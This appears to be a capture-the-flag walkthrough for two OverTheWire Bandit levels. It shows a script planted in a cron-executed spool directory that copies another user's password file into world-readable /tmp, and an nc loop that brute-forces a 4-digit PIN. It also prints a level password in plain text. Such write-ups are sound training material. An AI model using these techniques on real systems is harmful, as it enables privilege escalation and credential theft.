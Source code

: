 Solution:
```
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
We can see that all scrips inside that directory are first executed and then deleted, so let's create our own that would give us the flag:
```
bandit23@bandit:/$ vim /var/spool/bandit24/script.sh
```
```
#!/bin/bash                                                        
cat /etc/bandit_pass/bandit24 > /tmp/flag.txt
chmod 777 /tmp/flag.txt
```
After a while, we can get our flag:
```
bandit23@bandit:/$ cat /tmp/flag.txt
```

### Level 24 -> 25 ###
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Solution:
```
bandit24@bandit:~$ for i in {0001..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"; done  | nc localhost 30002
```
